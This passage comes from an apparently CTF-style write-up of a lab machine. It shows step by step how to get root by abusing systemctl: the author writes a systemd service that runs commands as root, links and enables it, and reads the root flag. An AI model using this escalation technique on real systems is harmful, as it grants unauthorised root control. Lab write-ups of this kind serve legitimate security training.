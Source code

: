 We write a service file inside. This service run the command `id` and put the
result in a file:

    :::text
    pepper@jarvis:~$ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "id > /tmp/output"
    > [Install]
    > WantedBy=multi-user.target' > $TF

We link the service using sysemctl:

    :::text
    pepper@jarvis:~$ /bin/systemctl link $TF
    Created symlink /etc/systemd/system/tmp.iyGBjTyKtn.service → /tmp/tmp.iyGBjTyKtn.service.

We start the service using sysemctl:

    :::text
    pepper@jarvis:~$ /bin/systemctl enable --now $TF
    Created symlink /etc/systemd/system/multi-user.target.wants/tmp.iyGBjTyKtn.service → /tmp/tmp.iyGBjTyKtn.service.

We get the result of the `id` command in `/tmp/output`.

    :::text
    pepper@jarvis:~$ cat /tmp/output 
    uid=0(root) gid=0(root) groups=0(root)

The command was executed. Now we create a second service which will output the
root's flag:

    :::text
    pepper@jarvis:~$ TF2=$(mktemp).service
    pepper@jarvis:~$ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
    > [Install]
    > WantedBy=multi-user.target' > $TF2
    pepper@jarvis:~$ /bin/systemctl link $TF2
    Created symlink /etc/systemd/system/tmp.ZcSgmH8PDr.service → /tmp/tmp.ZcSgmH8PDr.service.
    pepper@jarvis:~$ /bin/systemctl enable --now $TF2
    Created symlink /etc/systemd/system/multi-user.target.wants/tmp.ZcSgmH8PDr.service → /tmp/tmp.ZcSgmH8PDr.service.
    pepper@jarvis:~$ cat /tmp/output 
    d41d8<redacted>

# Wrapping up

This box was a nice one. It has been a long time since my last usage of
`sqlmap --os-shell` command.
The movement from `www-data` to `pepper` was easy and the privilege
escalation let me learn new things about systemd.

